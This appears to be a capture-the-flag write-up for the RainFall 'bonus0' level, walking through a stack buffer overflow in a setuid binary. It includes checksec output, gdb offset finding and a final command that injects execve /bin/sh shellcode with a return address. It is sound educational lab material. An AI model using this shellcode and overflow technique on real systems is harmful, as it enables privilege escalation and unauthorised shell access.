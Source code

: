 <p align="justify">

Bonus0 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
```

Bonus0 rights:
```Shell
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
```

Testing the binary:
```Shell
bonus0@RainFall:~$ ./bonus0
 - 
test
 - 
truc
test truc
```

Let's decompile it with Hex-Rays on https://dogbolt.org/ and see what is there:
- the code uses `strcpy()`and `strncpy()`, which we can exploit for a buffer overflow
- the resulting string is of size ARG1 + ARG2 + ONE-SPACE + ARG2
- the buffer in `main()`has a size of [42]
While testing the binary, we also realise that:
- arg1 will accept a maximum of 19b and add a `\0`at the end of the string (with `strcpy()`), so if you give it 20b it will continue reading past 20
- the buffers of arg1 and arg2 sit next to each other

We can therefore write a shellcode as a first argument, however ours is 21b. So we can write the first 20b, and start the second argument with 1 byte.

Next, we must find `EIP` to overwrite it. We know that the buffer is [42], so let's try to overflow it with a pattern of 20b as ARG1 and 19b as ARG2. 20 is the maximum you can give to ARG1, and 19 is the maximum without getting weird characters (the size of what we are sending will be 20 + 19 + 19 = 58).

```Shell
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa //20bytes
 - 
Aa0Aa1Aa2Aa3Aa4Aa5A //19bytes
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5A Aa0Aa1Aa2Aa3Aa4Aa5A

Program received signal SIGSEGV, Segmentation fault.
0x35614134 in ?? ()
```
This gives us 14. When you take 20(ARG1) + 19(ARG2) + 1(the space added) + 14(SEGFAULT), you get an offset of 54.

Now:




address of s: 0xbffff736
offset: 54 (20(arg1) + 19(fake arg2) + 1(space) + 14(arg2))

payload: 21 bytes of shellcode + 33 bytes of padding + address of s

```Shell
level2@RainFall:~$ (python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd")'; python -c 'print("\x80" + "A" * 13  + "\xbf\xff\xf7\x36"[::-1] + "A")'; cat -) | ./bonus0
```

</p>